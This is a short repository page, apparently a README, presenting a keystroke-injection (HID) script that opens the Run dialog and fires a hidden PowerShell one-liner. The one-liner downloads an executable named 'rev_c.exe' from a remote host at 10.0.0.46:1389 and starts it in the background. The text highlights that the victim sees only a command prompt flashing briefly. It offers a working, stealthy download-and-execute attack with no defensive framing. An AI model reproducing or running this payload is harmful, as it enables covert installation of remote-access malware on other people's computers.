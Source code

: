 # HID Deployment

One-liner that downloads an executable from a URL of your choice, saves in temp folder and then starts a process in the background.

The only visible part is opening run and typing this single line of code, a command prompt opens for a fraction of a second & everything else happens first minimized and then in the background.

## HID script
```
GUI R
DELAY 2000
STRING cmd /C "start /MIN cmd /C powershell Invoke-WebRequest -Uri http://10.0.0.46:1389/rev_c.exe -OutFile $env:temp/rev_c.exe ; Start-Process $env:temp/rev_c.exe"
ENTER
```
